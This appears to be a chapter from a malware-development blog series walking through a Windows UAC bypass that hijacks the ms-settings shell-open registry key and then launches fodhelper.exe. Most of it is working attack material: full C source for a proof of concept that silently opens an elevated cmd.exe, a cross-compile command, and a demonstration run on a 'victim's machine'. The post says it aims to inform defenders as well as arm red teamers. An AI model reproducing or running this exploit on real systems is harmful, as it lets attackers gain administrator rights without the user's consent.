


\newpage
\subsection{66. malware AV/VM evasion - part 13 (part 17 on blog): bypass UAC via fodhelper.exe. Simple C++ example.}

﷽

{width="80%"}      

This post appeared as an intermediate result of one of my research projects in which I am going to bypass the antivirus by depriving it of the right to scan, so this is the result of my own research on the first step, one of the interesting UAC bypass trick: via `foodhelper.exe` with registry modification.      

### registry modification

The process of modifying a registry key has as its end objective the rerouting of an elevated program's execution flow to a command that has been managed. The most common misuses of key values involve the manipulation of `windir` and `systemroot` environment variables, as well as shell open commands for particular file extensions (depending on the program that is being targeted):      

- `HKCU\\Software\\Classes\<targeted_extension>\\shell\\open\command (Default or DelegateExecute values)`     
- `HKCU\\Environment\\windir`     
- `HKCU\\Environment\\systemroot`        

### fodhelper.exe

`fodhelper.exe` was introduced in Windows 10 to manage optional features like region-specific keyboard settings. It's location is: `C:\Windows\System32\fodhelper.exe` and it is signed by Microsoft:      

{width="80%"}      

When `fodhelper.exe` is started, process monitor begins capturing the process and discloses (among other things) all registry and filesystem read/write operations.  The read registry accesses are one of the most intriguing activities, despite the fact that some specific keys or values are not discovered. Because we do not require special permissions to modify entries, `HKEY_CURRENT_USER` registry keys are particularly useful for testing how a program's behavior may change after the creation of a new registry key.       

`fodhelper.exe`, searches for `HKCU:\Software\Classes\ms-settings\shell\open\command`. This key does not exist by default in Windows 10:       

{width="80%"}      

So, when malware launches `fodhelper` (as we know, a Windows binary that permits elevation without requiring a UAC prompt) as a Medium integrity process, Windows automatically elevates `fodhelper` from a Medium to a High integrity process. The High integrity `fodhelper` then tries to open a `ms-settings` file using the file's default handler. Since the malware with `medium integrity` has commandeered this handler, the elevated `fodhelper` will execute an attack command as a process with high integrity.      

### practical example

So, let's go to create PoC for this logic. First of all create registry key and set values - our registry modification step:     

```cpp
HKEY hkey;
DWORD d;

const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; // default program
const char* del = "";

// attempt to open the key
LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 0, 
KEY_WRITE, NULL, &hkey, &d);
printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : 
"successfully create reg key\n");

// set the registry values
stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : 
"successfully set reg value\n");

stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)del, 
strlen(del));
printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" : 
"successfully set reg value: DelegateExecute\n");

// close the key handle
RegCloseKey(hkey);
```

As you can see, just creates a new registry structure in: `HKCU:\Software\Classes\ms-settings\` to perform UAC bypass.      

Then, start elevated app:     

```cpp
 // start the fodhelper.exe program
SHELLEXECUTEINFO sei = { sizeof(sei) };
sei.lpVerb = "runas";
sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
sei.hwnd = NULL;
sei.nShow = SW_NORMAL;

if (!ShellExecuteEx(&sei)) {
  DWORD err = GetLastError();
  printf (err == ERROR_CANCELLED ? "the user refused to allow privileges elevation.\n" : "unexpected error! error code: %ld\n", err);
} else {
  printf("successfully create process =^..^=\n");
}

return 0;
```

That's all.    

Full source code is looks like `hack.c`:    

```cpp
/*
 * hack.c - bypass UAC via fodhelper.exe
 * (registry modifications). C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/19/malware-av-evasion-17.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  HKEY hkey;
  DWORD d;

  const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
  const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; 
  // default program
  const char* del = "";

  // attempt to open the key
  LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 
  0, KEY_WRITE, NULL, &hkey, &d);
  printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : 
  "successfully create reg key\n");

  // set the registry values
  stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : 
  "successfully set reg value\n");

  stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)
  del, strlen(del));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" 
  : "successfully set reg value: DelegateExecute\n");

  // close the key handle
  RegCloseKey(hkey);

  // start the fodhelper.exe program
  SHELLEXECUTEINFO sei = { sizeof(sei) };
  sei.lpVerb = "runas";
  sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
  sei.hwnd = NULL;
  sei.nShow = SW_NORMAL;

  if (!ShellExecuteEx(&sei)) {
    DWORD err = GetLastError();
    printf (err == ERROR_CANCELLED ? "the user refused to allow privileges 
    elevation.\n" : 
    "unexpected error! error code: %ld\n", err);
  } else {
    printf("successfully create process =^..^=\n");
  }

  return 0;
}
```

### demo

Let's go to see everything in action. First, let's check registry:    

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

{width="80%"}      

Also, check our current privileges:     

```powershell
whoami /priv
```

{width="80%"}      

Compile our `hack.c` PoC in attacker's machine:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}      

Then, just run it in the victim's machine (`Windows 10 x64 1903` in my case):     

```powershell
.\hack.exe
```

{width="80%"}      

As you can see, `cmd.exe` is launched. Check registry structure again:     

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

{width="80%"}      

As you can see, the registry has been successfully modified.    

Check privileges in our launched `cmd.exe` session:    

```powershell
whoami /priv
```

{width="80%"}      

Then, run `Process Hacker` with Administrator privileges:     

{width="80%"}      

and check properties of our `cmd.exe`:     

{width="80%"}      

{width="80%"}      

As you can see, everything is worked perfectly! =^..^=     

[Glupteba](https://malpedia.caad.fkie.fraunhofer.de/details/win.glupteba) malware leveraging this method to first elevate from a Medium to High integrity process, then from High to System integrity via Token Manipulation.     

I hope this post spreads awareness to the blue teamers of this interesting bypass technique, and adds a weapon to the red teamers arsenal.      

[MITRE ATT&CK: Modify registry](https://attack.mitre.org/techniques/T1112/)    
[Glupteba](https://malpedia.caad.fkie.fraunhofer.de/details/win.glupteba)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-06-19-malware-av-evasion-17)       
